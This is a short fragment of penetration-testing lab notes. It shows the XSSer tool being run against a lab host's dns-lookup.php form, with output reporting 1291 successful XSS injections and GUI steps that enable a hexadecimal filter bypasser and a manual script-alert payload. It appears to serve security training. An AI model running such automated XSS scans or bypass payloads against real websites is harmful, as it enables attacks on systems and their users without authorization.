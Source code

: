 ```
```

`xsser --url 'http://192.35.189.3/index.php?popUpNotificationCode=SL0&page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS' --auto --reverse-check`:
```
[...]

===========================================================================
[*] Final Results:
===========================================================================

- Injections: 1291📌
- Failed: 0
- Successful: 1291📌
- Accur: 100.0 %

===========================================================================
[*] List of XSS injections:
===========================================================================

You have found: [ 1291 ] XSS vector(s)! -> [100% VULNERABLE]📌

---------------------

[Info] Aborting large screen output. Generating report: [ XSSreport.raw ]

-------------------------
```

`xsser --gtk` > `Intruder` > `Url: http://192.35.189.3/index.php?popUpNotificationCode=SL0&page=dns-lookup.php` > `Configure` = `Type of connection(s): POST: target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS` = `Bypasser(s)` > `Hexadecimal with semicolons: Enabled` = `Exploit` > `Exploiting: Manual: <script>alert("TEST");</script>` > `Aim!`

![Lab - XSS Attack with XSSer 6](./assets/03_xss_attacks_lab_xss_attack_with_xsser_6.png)

---
---